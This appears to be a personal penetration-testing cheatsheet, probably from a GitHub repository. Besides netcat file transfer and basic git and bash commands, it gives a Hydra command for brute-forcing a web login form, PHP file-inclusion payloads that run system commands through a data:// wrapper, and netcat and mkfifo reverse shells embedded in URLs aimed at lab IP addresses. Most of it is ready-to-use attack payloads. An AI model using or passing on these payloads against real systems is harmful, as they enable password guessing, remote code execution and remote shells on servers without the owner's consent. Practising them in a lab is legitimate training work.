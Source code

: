 # Cheatsheet 

## Sending And Receiving Files With Netcat

### Sending
`nc DESTINATIONSERVER PORT < FILENAME`

### Recieving
`nc -l -p PORT > FILE`


## Change The Time

`date -s "DD MMM YYYY HH:MM:SS"`


## GIT

```bash
git init in your desired directory
git add (your file)
git commit -m (your Title)
git push
```

## Hydra Basic Stuff

### HTTP

```bash
hydra -l admin -P <Pathtodesiredwordlist> <VictimIP> http-post-form "<LoginPage>:username=^USER^&password=^PASS^&Login=Login:Access Denied" -V
```
-l indicates a single username (use -L for a username list)  
-P indicates use the following password list  
http-post-form indicates the type of form  
/dvwa/login-php is the login page URL  
username is the form field where the username is entered  
^USER^ tells Hydra to use the username or list in the field  
password is the form field where the password is entered (it may be passwd, pass, etc.)  
^PASS^ tells Hydra to use the password list supplied  
Login indicates to Hydra the login failed message  
Login failed is the login failure message that the form returned
-V is for verbose output showing every attempt

## PHP
http://10.0.2.100/vulnerabilities/fi/?COMMAND=ls&page=data://text/plain,%3C?php%20system($_GET[%27COMMAND%27]);%20?%3E


## NC Reverse Shell

### Terminal
`nc -lvvvnp 4444`

### Target
`nc <your IP> 4444 –e /bin/bash`

http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>

10.0.2.4:8380/index.php?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


rm /tmp/fifo.tmp; mkfifo /tmp/fifo.tmp; cat /tmp/fifo.tmp | sh -i 2>&1 | nc 10.0.2.15 1337 >/tmp/fifo.tmp


TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>&1 | nc ${TARGET} ${PORT} >${PIPE}

- Note 2 self: URL encode ampersand `&` naar `%26` ivm url betekenis!
http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


## BASH STUFFS  
`ls -all`
`find <desireddirectory> | grep <filename>`


## Propper shell  
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
`
`python3 /tmp/asdf.py`
